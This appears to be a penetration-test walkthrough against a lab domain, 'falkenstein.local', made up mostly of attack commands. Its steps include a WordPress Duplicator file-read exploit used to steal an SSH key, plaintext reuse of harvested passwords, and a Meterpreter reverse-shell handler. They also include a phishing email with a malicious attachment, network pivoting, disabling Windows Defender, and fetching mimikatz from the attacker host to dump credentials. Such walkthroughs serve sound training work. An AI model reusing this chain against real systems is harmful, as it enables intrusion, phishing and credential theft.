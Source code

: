 ## Information Gathering

### Passive
Google revealed that they have a website: falkenstein.local
### Active
```bash
sudo nmap -A --top-ports 50 falkenstein.local -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html
```

```bash
wpscan --url "http://falkenstein.local" --no-update --disable-tls-checks --plugins-detection aggressive --enumerate ap,cb
```
ap = all plugins
cb = configuration backups
## Initial Access
```bash
sp duplicator
```

```bash
sp -m 50420
```

```bash
vim 50420.py
```

```bash
python 50420.py http://falkenstein.local /etc/passwd
```
We find username karl
```bash
python 50420.py http://falkenstein.local /home/karl/.ssh/id_ed25519
```

```bash
ssh -i id_ed25519 karl@falkenstein.local
```

```bash
cd /srv/www/wordpress
```

```bash
nano wp-config.php
```

```bash
sudo swaks -t anton@falkenstein.local --from karl@falkenstein.local --body @body_test.txt --header "Subject: Test" --suppress-data --server 172.16.42.200 -au karl -ap PLiMzCuJxAtEnfxfFJc8
```

```bash
git show
```

```bash
sudo swaks -t anton@falkenstein.local --from karl@falkenstein.local --body @body_test.txt --header "Subject: Test" --suppress-data --server 172.16.42.200 -au karl -ap sdw3edf9db$
```

#### Setup C2

- Host 2nd stage via webdav (shell 1)
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ~/Desktop/Falkenstein_Demo/Phishing/stage_2
```

( NOT NECESSARY WITH METERPRETER) Host the 3rd stage via HTTP (shell 2)
```bash
python3 -m http.server 8000 -d ~/Desktop/Falkenstein_Demo/Phishing/stage_3
```

- Receive reverse shell (shell 3)
```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter_reverse_tcp; set LHOST 172.16.42.37; set LPORT 4444; set ExitOnSession false; run -j"
```

- Send Phish (shell 4)
```bash
sudo swaks -t anton@falkenstein.local --from f.cfurchensumpf@falkenstein.local --attach @config.Library-ms --body @body.txt --header "Subject: Horse Update" --suppress-data --server 172.16.42.200 -au karl -ap sdw3edf9db$
```

- Open Session (shell 3)
```msf
sessions -i 1
```

Strg + Z

```bash
use post/multi/manage/autoroute
```

```bash
set session 1
```

```bash
run -j
```
Ignore
	```bash
	use auxiliary/server/socks_proxy
	
	
	```bash
	run -j
	```

```bash
xfreerdp /u:"karl" /p:"sdw3edf9db$" /v:192.193.194.200 /dynamic-resolution /cert:ignore
```

Right-click on Start-Menu -> System shows we are on mail server. Navigate to:
`Program Files (x86)/Mail Enable/Postoffices/falkenstein.local/MAILROOT/f.cfurchensumpf/Inbox/`
- `_inbox` contains mail subjects and the corresponding mail file
-  The corresponding .MAI file can be opened with the editor
-> We have the local Administrators Password

Login with that over RDP. Disable windows defender (note that none of this was detected by defender so far!)

Connect from the MAILSRV to somewhere using RDP and set the checkbox "store credentials"

Download mimikatz from 172.16.42.37/mimikatz/x64/mimikatz.exe and execute with `.\mimikatz.exe privilege::debug token::elevate` then do `sekurlsa::logonpasswords`